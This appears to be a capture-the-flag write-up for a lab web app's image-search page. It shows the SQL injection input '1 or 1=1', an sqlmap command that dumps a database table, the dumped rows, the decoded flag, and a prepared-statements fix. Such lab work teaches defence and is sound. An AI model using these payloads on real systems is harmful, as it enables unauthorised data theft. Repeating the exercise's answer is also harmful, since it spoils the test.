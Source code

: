# SQL injection advanced
[http://10.203.72.119/index.php?page=searchimg](http://10.203.72.119/index.php?page=searchimg "image search") this page is also vunreable to ***sql injection***

## Manipulation
If we insert ***1 or 1=1*** in the search text box we get back results of all the users in the database table.

We can then use ***sqlmap*** to get the database, tables and the columns.
With this command we will dump the ***list_images*** table from the ***Member_images*** database. 

``` bash
sqlmap -u 'http://10.203.72.119/index.php?page=searchimg&id=1&Submit=Submit#' -D Member_images -T list_images --dump
```
The results
```bash
Database: Member_images
Table: list_images
[6 entries]
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment                                                                                                               |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
```
Then on the 5th row we see that we are given a flag, that we need to decode from ***md5***, then sha256. The flag after the process will be ***f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188***

## Solution 
Using prepared statements since the web application is written in php. And the user input must always be treated as a string.